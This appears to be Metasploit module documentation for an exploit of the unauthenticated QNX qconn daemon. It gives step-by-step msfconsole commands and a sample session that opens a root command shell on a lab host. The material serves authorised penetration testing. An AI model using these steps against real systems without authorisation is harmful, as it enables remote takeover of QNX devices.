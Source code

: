 ## Description

  This module uses the qconn daemon on [QNX](http://www.qnx.com/)
  systems to gain a shell.

  The QNX qconn daemon does not require authentication and allows
  remote users to execute arbitrary operating system commands.


## Vulnerable Application

  The QNX qconn daemon is a service provider that provides support,
  such as profiling system information, to remote IDE components.

  This module has been tested successfully on QNX Neutrino 6.5.0 SP1.

  QNX Neutrino 6.5.0 Service Pack 1 is available here:

  * http://www.qnx.com/download/feature.html?programid=23665


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/unix/misc/qnx_qconn_exec`
  3. `set rhost <IP>`
  4. `set rport <PORT>`
  5. `run`
  6. You should get a session


## Scenarios


  ```
  msf5 > use exploit/unix/misc/qnx_qconn_exec 
  msf5 exploit(unix/misc/qnx_qconn_exec) > set rhost 172.16.191.215
  rhost => 172.16.191.215
  msf5 exploit(unix/misc/qnx_qconn_exec) > set rport 8000
  rport => 8000
  msf5 exploit(unix/misc/qnx_qconn_exec) > run

  [*] 172.16.191.215:8000 - Sending payload...
  [+] 172.16.191.215:8000 - Payload sent successfully
  [*] Found shell.
  [*] Command shell session 1 opened (172.16.191.188:33641 -> 172.16.191.215:8000) at 2018-03-21 00:19:37 -0400


  0oxdgl2UgHIvCYBO
  # id
  id
  uid=0(root) gid=0(root)
  # uname -a
  uname -a
  QNX localhost 6.5.0 2012/06/20-13:50:50EDT x86pc x86
  ```

